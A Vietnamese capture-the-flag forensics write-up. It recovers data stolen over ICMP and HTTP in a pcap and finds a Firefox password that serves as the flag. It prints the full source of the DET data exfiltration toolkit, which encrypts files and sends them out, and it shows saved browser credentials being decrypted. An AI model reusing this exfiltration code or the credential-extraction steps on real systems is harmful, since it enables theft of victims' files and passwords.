





### Description 
> The attack is very quick and stealthy, can you find out what happened?
### Link challenge 
> https://ctf.viblo.asia/puzzles/netlab8-super-secure-traffic-z7wtkfohhjs
### Solution 
- Ở bài này ta được cho 1 file pcap
- Mở file ra với WireShark, thứ đầu tiên đập vào mắt ta là 1 yêu cầu get file DET.zip
- 
- Tiếp tục phân tích ta thấy tại các gói http và icmp sẽ có 1 vài đoạn dữ liệu bị mã hoá 
- 
- Bây giờ ta sẽ tiến hành phân tích file DET.zip có gì 
- 
- Nhìn vào trong ta thấy có 1 file det.py và 1 folder plugins chứa các plugin của file chính (det.py)

<details>
<summary>
Src file det.py
</summary>

```
import os
import random
import threading
import hashlib
import argparse
import sys
import string
import time
import json
import signal
import struct
import tempfile
from random import randint
from os import listdir
from os.path import isfile, join
from Crypto.Cipher import AES
from zlib import compress, decompress

KEY = ""
MIN_TIME_SLEEP = 1
MAX_TIME_SLEEP = 30
MIN_BYTES_READ = 1
MAX_BYTES_READ = 500
COMPRESSION    = True
files = {}
threads = []
config = None


class bcolors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'


def display_message(message):
    print "[%s] %s" % (time.strftime("%Y-%m-%d.%H:%M:%S", time.gmtime()), message)


def warning(message):
    display_message("%s%s%s" % (bcolors.WARNING, message, bcolors.ENDC))


def ok(message):
    display_message("%s%s%s" % (bcolors.OKGREEN, message, bcolors.ENDC))


def info(message):
    display_message("%s%s%s" % (bcolors.OKBLUE, message, bcolors.ENDC))


def aes_encrypt(message, key=KEY):
    try:
        # Generate random CBC IV
        iv = os.urandom(AES.block_size)

        # Derive AES key from passphrase
        aes = AES.new(hashlib.sha256(key).digest(), AES.MODE_CBC, iv)

        # Add PKCS5 padding
        pad = lambda s: s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

        # Return data size, iv and encrypted message
        return iv + aes.encrypt(pad(message))
    except:
        return None

def md5(fname):
    hash = hashlib.md5()
    with open(fname) as f:
        for chunk in iter(lambda: f.read(4096), ""):
            hash.update(chunk)
    return hash.hexdigest()


function_mapping = {
    'display_message': display_message,
    'warning': warning,
    'ok': ok,
    'info': info,
    'aes_encrypt' : aes_encrypt,
}


class Exfiltration(object):

    def __init__(self, results, KEY):
        self.KEY = KEY
        self.plugin_manager = None
        self.plugins = {}
        self.results = results
        self.target = "127.0.0.1"

        path = "plugins/"
        plugins = {}

        # Load plugins
        sys.path.insert(0, path)
        for f in os.listdir(path):
            fname, ext = os.path.splitext(f)
            if ext == '.py' and self.should_use_plugin(fname):
                mod = __import__(fname)
                plugins[fname] = mod.Plugin(self, config["plugins"][fname])

    def should_use_plugin(self, plugin_name):
        # if the plugin has been specified specifically (-p twitter)
        if self.results.plugin and plugin_name not in self.results.plugin.split(','):
            return False
        # if the plugin is not in the exclude param
        elif self.results.exclude and plugin_name in self.results.exclude.split(','):
            return False
        else:
            return True

    def register_plugin(self, transport_method, functions):
        self.plugins[transport_method] = functions

    def get_plugins(self):
        return self.plugins

    def aes_encrypt(self, message):
        return aes_encrypt(message, self.KEY)


    def log_message(self, mode, message):
        if mode in function_mapping:
            function_mapping[mode](message)

    def get_random_plugin(self):
        plugin_name = random.sample(self.plugins, 1)[0]
        return plugin_name, self.plugins[plugin_name]['send']

    def use_plugin(self, plugins):
        tmp = {}
        for plugin_name in plugins.split(','):
            if (plugin_name in self.plugins):
                tmp[plugin_name] = self.plugins[plugin_name]
        self.plugins.clear()
        self.plugins = tmp

    def remove_plugins(self, plugins):
        for plugin_name in plugins:
            if plugin_name in self.plugins:
                del self.plugins[plugin_name]
        display_message("{0} plugins will be used".format(
            len(self.get_plugins())))

    def register_file(self, message):
        global files
        jobid = message[0]
        if jobid not in files:
            files[jobid] = {}
            files[jobid]['checksum'] = message[3].lower()
            files[jobid]['filename'] = message[1].lower()
            files[jobid]['data'] = []
            files[jobid]['packets_number'] = []
            warning("Register packet for file %s with checksum %s" %
                    (files[jobid]['filename'], files[jobid]['checksum']))

    def retrieve_file(self, jobid):
        global files
        fname = files[jobid]['filename']
        filename = "%s.%s" % (fname.replace(
            os.path.pathsep, ''), time.strftime("%Y-%m-%d.%H:%M:%S", time.gmtime()))
        content = ''.join(str(v) for v in files[jobid]['data']).decode('hex')
        if COMPRESSION:
            content = decompress(content)
        f = open(filename, 'w')
        f.write(content)
        f.close()
        if (files[jobid]['checksum'] == md5(filename)):
            ok("File %s recovered" % (fname))
        else:
            warning("File %s corrupt!" % (fname))
        del files[jobid]

    def retrieve_data(self, data):
        global files
        try:
            message = data
            if (message.count("|!|") >= 2):
                info("Received {0} bytes".format(len(message)))
                message = message.split("|!|")
                jobid = message[0]

                # register packet
                if (message[2] == "REGISTER"):
                    self.register_file(message)
                # done packet
                elif (message[2] == "DONE"):
                    self.retrieve_file(jobid)
                # data packet
                else:
                    # making sure there's a jobid for this file
                    if (jobid in files and message[1] not in files[jobid]['packets_number']):
                        files[jobid]['data'].append(''.join(message[2:]))
                        files[jobid]['packets_number'].append(message[1])
        except:
            raise
            pass


class ExfiltrateFile(threading.Thread):

    def __init__(self, exfiltrate, file_to_send):
        threading.Thread.__init__(self)
        self.file_to_send = file_to_send
        self.exfiltrate = exfiltrate
        self.jobid = ''.join(random.sample(
            string.ascii_letters + string.digits, 7))
        self.checksum = md5(file_to_send)
        self.daemon = True

    def run(self):
        # registering packet
        plugin_name, plugin_send_function = self.exfiltrate.get_random_plugin()
        ok("Using {0} as transport method".format(plugin_name))

        warning("[!] Registering packet for the file")
        data = "%s|!|%s|!|REGISTER|!|%s" % (
            self.jobid, os.path.basename(self.file_to_send), self.checksum)
        plugin_send_function(data)


        # sending the data
        f = tempfile.SpooledTemporaryFile()
        e = open(self.file_to_send, 'rb')
        data = e.read()
        if COMPRESSION:
            data = compress(data)
        f.write(aes_encrypt(data, self.exfiltrate.KEY))
        f.seek(0)
        e.close()

        packet_index = 0
        while (True):
            data_file = f.read(randint(MIN_BYTES_READ, MAX_BYTES_READ)).encode('hex')
            if not data_file:
                break
            plugin_name, plugin_send_function = self.exfiltrate.get_random_plugin()
            ok("Using {0} as transport method".format(plugin_name))
            # info("Sending %s bytes packet" % len(data_file))

            data = "%s|!|%s|!|%s" % (self.jobid, packet_index, data_file)
            plugin_send_function(data)
            packet_index = packet_index + 1


        # last packet
        plugin_name, plugin_send_function = self.exfiltrate.get_random_plugin()
        ok("Using {0} as transport method".format(plugin_name))
        data = "%s|!|%s|!|DONE" % (self.jobid, packet_index)
        plugin_send_function(data)
        f.close()
        sys.exit(0)


def signal_handler(bla, frame):
    global threads
    warning('Killing DET and its subprocesses')
    os.kill(os.getpid(), signal.SIGKILL)


def main():
    global MAX_TIME_SLEEP, MIN_TIME_SLEEP, KEY, MAX_BYTES_READ, MIN_BYTES_READ, COMPRESSION
    global threads, config

    parser = argparse.ArgumentParser(
        description='Data Exfiltration Toolkit (SensePost)')
    parser.add_argument('-c', action="store", dest="config", default=None,
                        help="Configuration file (eg. '-c ./config-sample.json')")
    parser.add_argument('-f', action="store", dest="file",
                        help="File to exfiltrate (eg. '-f /etc/passwd')")
    parser.add_argument('-d', action="store", dest="folder",
                        help="Folder to exfiltrate (eg. '-d /etc/')")
    parser.add_argument('-p', action="store", dest="plugin",
                        default=None, help="Plugins to use (eg. '-p dns,twitter')")
    parser.add_argument('-e', action="store", dest="exclude",
                        default=None, help="Plugins to exclude (eg. '-e gmail,icmp')")
    parser.add_argument('-L', action="store_true",
                        dest="listen", default=False, help="Server mode")
    results = parser.parse_args()

    if (results.config is None):
        print "Specify a configuration file!"
        parser.print_help()
        sys.exit(-1)

    with open(results.config) as data_file:
        config = json.load(data_file)

    signal.signal(signal.SIGINT, signal_handler)
    ok("CTRL+C to kill DET")

    MIN_TIME_SLEEP = int(config['min_time_sleep'])
    MAX_TIME_SLEEP = int(config['max_time_sleep'])
    MIN_BYTES_READ = int(config['min_bytes_read'])
    MAX_BYTES_READ = int(config['max_bytes_read'])
    COMPRESSION    = bool(config['compression'])
    KEY = config['AES_KEY']
    app = Exfiltration(results, KEY)


    if (results.listen):
        threads = []
        plugins = app.get_plugins()
        for plugin in plugins:
            thread = threading.Thread(target=plugins[plugin]['listen'])
            thread.daemon = True
            thread.start()
            threads.append(thread)

    else:
        if (results.folder is None and results.file is None):
            warning("[!] Specify a file or a folder!")
            parser.print_help()
            sys.exit(-1)
        if (results.folder):
            files = ["{0}{1}".format(results.folder, f) for
                     f in listdir(results.folder)
                     if isfile(join(results.folder, f))]
        else:
            files = [results.file]

        threads = []
        for file_to_send in files:
            info("Launching thread for file {0}".format(file_to_send))
            thread = ExfiltrateFile(app, file_to_send)
            threads.append(thread)
            thread.daemon = True
            thread.start()

    for thread in threads:
        while True:
            thread.join(1)
            if not thread.isAlive():
                break

if __name__ == '__main__':
    main()

```

</details>

- Đọc src ta có thể giải thích đơn giản như sau : Đây một công cụ thu thập dữ liệu (data exfiltration toolkit) sử dụng mã hóa AES thông qua key được lấy từ file config.json
#### Phân tích từng phần
```
    def run(self):
        # sending the data
        f = tempfile.SpooledTemporaryFile()
        e = open(self.file_to_send, 'rb')
        data = e.read()
        if COMPRESSION:
            data = compress(data)
        f.write(aes_encrypt(data, self.exfiltrate.KEY))
        f.seek(0)
        e.close()

        packet_index = 0
        while (True):
            data_file = f.read(randint(MIN_BYTES_READ, MAX_BYTES_READ)).encode('hex')
            if not data_file:
                break
            plugin_name, plugin_send_function = self.exfiltrate.get_random_plugin()
            ok("Using {0} as transport method".format(plugin_name))
            # info("Sending %s bytes packet" % len(data_file))

            data = "%s|!|%s|!|%s" % (self.jobid, packet_index, data_file)
            plugin_send_function(data)
            packet_index = packet_index + 1

```
- Nhìn vào đây ta có thể thấy rằng có 1 đoạn gửi dữ liệu như sau trong hàm `run`. Dữ liệu được nén bằng zlib sau đó dữ liệu được tách ra thành từng phần thông qua `MIN_BYTES_READ` và `MAX_BYTES_READ`  được random.
- Sau đó chúng sẽ được mã hoá thông qua aes với key là biến KEY đã được mã hoá sha256, mục đích là để đúng length. (KEY lấy trong file config.json `KEY = config['AES_KEY']`)
- Trong đó dữ liệu được gửi đi có dạng ` data = "%s|!|%s|!|%s" % (self.jobid, packet_index, data_file)`
- Có thể hình dung để hiểu hơn là self.jobid sẽ tượng trưng cho ID của tệp bị mã hoá, packet_index tượng trưng cho chỉ số đoạn bị cắt và data_file tựng trưng cho phần dữ liệu bị mã hoá.
- Sau khi gửi, giao thức (plugin) gửi cho từng gói cũng random.
- Bây giờ ta đã nắm sơ về cách hoạt động của nó, ta sẽ tiến hành crawl dữ liệu về và giải mã.
##### **Đối với gói ICMP**
- Đầu tiên, sử dụng tshark để lọc
> tshark -r netlab8.pcap -Y "icmp && icmp.type==8" -Tfields -e data.data  > icmp_data.txt
- Tiếp theo sử dụng script giải mã nó về dạng mã hoá ban đầu.
```
import base64
def hex_to_ascii(hex_string):
    # Chuyển đổi từ hex sang bytes
    bytes_object = bytes.fromhex(hex_string)
    # Chuyển đổi từ bytes sang chuỗi ASCII
    ascii_string = bytes_object.decode('ascii', errors='ignore')
    return ascii_string
with open("icmp_data.txt", "r") as file:
for line in file:
b64encode = hex_to_ascii(line)
data = base64.b64decode(b64encode)
print(data.decode('utf-8'))
```
- Ví dụ về 1 dòng 
> gud9HOB|!|9846|!|3355156fb65881996a3bcfd3e11b681d59f1722b27f3c6763f6c02f8f0ccc14448a325cafa3b3a13955e5ff9edae9d59da1e8d41a091ec0c4f45e2352772540da15d6ba61040af39e56396ac2265d38e011c1f648fb82f68686ad42fe8cb6c1eef5a73274546d1a354fc8c1a3138cbb41d3759b337b7241fa9190cfdc246ac7091dd5b8d477e952b994c6e6e6f60eee19119655910b1b32d20c6baad7b3599d8fd241256afa83fd453d30ba3d28e3ca63ae03c1dcdb940ac5dbe7b8f3aa3b33e01dd93d688742d6da0272c26b7c5a5d6bb0cdf9278e1024c1a99ae7bd273d2156027e0371cf8f1fe56305c436cc0b3bfffa9aec4a6293f88fc6be7c088fe9ab6880aef09ea910655ef80ba9ada570048003c22fed669fd713fa80fe3a39b0b6bfc16de0796c627964987c5fd9e6e8399febe65705dd061a810e14f45e61a2708d37c86a53372decedb90d33e8bf180c5c4ec5de3e3a747c61c5f02356c

#### Đối với http
> tshark -r netlab8.pcap -Y "urlencoded-form.value" -Tfields -e urlencoded-form.value  > http_data.txt
- Tương tự như trên ta dùng script giải mã hex
```
import base64
with open("http_data.txt", "r") as file:
	for line in file:
		data = base64.b64decode(line)
		print(data.decode('utf-8'))
```
- Đã xử lý xong 2 phần dữ liệu được gửi đi, ta viết thêm 1 script nữa để lấy tất cả dữ liệu bị mã hoá 
```
for i in range(0, 14349):
    #print("DANG TIM", i)
    check = True
    with open("extract_icmp.txt") as file1:
        for line in file1:
            #print(line.split('|!|')[1])
            if line.split('|!|')[1] == str(i):
                
                print(line.split('|!|')[-1], end = '')
                check = False
                break
    if check:
        with open("extract_http.txt") as file2:
            for line in file2:
                #print(line.split('|!|')[1])
                if line.split('|!|')[1] == str(i):
                    print(line.split('|!|')[-1], end = '')
                    break
```
- Ta thu được dữ liệu đã được sắp xếp, bây giờ thì mang nó đi decrypt, ở đây ta biết được KEY được lấy từ config.json, check file đó ta lấy được key, mã hoá sha256 ta có được key chính.
- 
- Nhìn vào hàm encrypt ta có thể dễ dàng xác định được iv 
```
def aes_encrypt(message, key=KEY):
    try:
        # Generate random CBC IV
        iv = os.urandom(AES.block_size)

        # Derive AES key from passphrase
        aes = AES.new(hashlib.sha256(key).digest(), AES.MODE_CBC, iv)

        # Add PKCS5 padding
        pad = lambda s: s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

        # Return data size, iv and encrypted message
        return iv + aes.encrypt(pad(message))
    except:
        return None
```
- Decrypt xong ta thu được 1 file zip
- 
- Giải nén nó, ta thu được 1 loạt tập tin, nhưng đáng chú ý nhất là file logins.json và file key4.db.
- Rất có khả năng attacker muốn nhắm đến chính là dữ liệu đăng nhập củ người dùng.
- Mình tìm được 1 [công cụ dùng để trích xuất mật khẩu firefox](https://github.com/unode/firefox_decrypt)
```
┌──(kali㉿kali)-[~/Downloads/firefox_decrypt]
└─$ python firefox_decrypt.py ~/Downloads/7ltvf97n.default-release/
2024-09-24 13:19:12,027 - WARNING - profile.ini not found in /home/kali/Downloads/7ltvf97n.default-release/
2024-09-24 13:19:12,027 - WARNING - Continuing and assuming '/home/kali/Downloads/7ltvf97n.default-release/' is a profile location

Website:   https://accounts.viblo.asia
Username: 'bquanman'
Password: 'Flag{NetLab8_I_kn0W_y0uR_P4s$w0rd}'
```
> Flag : Flag{NetLab8_I_kn0W_y0uR_P4s$w0rd}


